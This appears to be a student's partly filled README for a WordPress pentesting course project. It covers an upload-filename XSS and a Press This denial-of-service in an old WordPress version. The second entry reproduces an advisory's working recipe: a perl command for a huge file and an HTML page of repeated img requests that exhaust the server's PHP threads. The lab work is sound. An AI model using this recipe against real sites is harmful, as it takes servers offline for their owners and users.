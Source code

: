
# Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID 8819
  - [ ] Summary: Inject a malicious script in to the filename which a victim tries to upload leading to XSS inside the administrators control panel.
  Two different "file to large" cases end up in interpolating the file name and appending it into DOM unsanitized leading to XSS.
    - Vulnerability types:injecting a scpript 
    - Tested in version: 
    - Fixed in version: 
  - [ ] GIF Walkthrough: 8819.gif
  - [ ] Steps to recreate: step 1: downloading a 20mb file
  2. Changing file name in order to expoloit it
  3. upload it to http://localhost/wp-admin/media-new.php
  - [ ] Affected source code:
    - [Link 1](https://hackerone.com/reports/203515)
    
    
2. (Required) Vulnerability Name or ID 8770
  - [ ] Summary: 
The Press This [4] function allows quick publishing with a special web
browser bookmarklet. An admin can also visit the Press This page
directly. One of the features of Press This is scanning an external
server for embeddable content. This is done with a GET request to:

https://www.securify.nl/wp-admin/press-this.php?u=<URL>&url-scan-submit=Scan

When this URL is called, Press This will download the contents located
at "URL" and look for content such as images and other embeddable
elements.
 This property can be abused by setting the
external URL to a huge file and have an authenticated admin visit it.
The PHP process will use 100% of its CPU resources to process the file.
If an authenticated admin can be lured to an external page, then the
malicious URL can be called many times, blocking all PHP server threads.
This will cause the server to be unreachable for a while.
    - Vulnerability types: DDOS
    - Tested in version: 
    - Fixed in version: 
  - [ ] GIF Walkthrough: 8770.gif
  - [ ] Steps to recreate:  
1. Install plug in Press This
2. Send get request on press this
3. On an external server, create a large text file with the command:
perl -e 'print "<>"x28000000' > foo.txt
4.Create a file dos.html on the external server with enough entries
to fill the connection pool of the WordPress server, as follows:
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=b'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=c'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=d'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=e'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=f'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=g'>
[..]
(replace <wp server> with the WordPress server address and <external
server> with the external server)
  5. Now have a logged in admin visit dos.html. The server will be down for a
while.
  - [ ] Affected source code: https://hackerone.com/reports/153093
    - [Link 1](https://github.com/WordPress/WordPress/commit/263831a72d08556bc2f3a328673d95301a152829)
  
  
3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
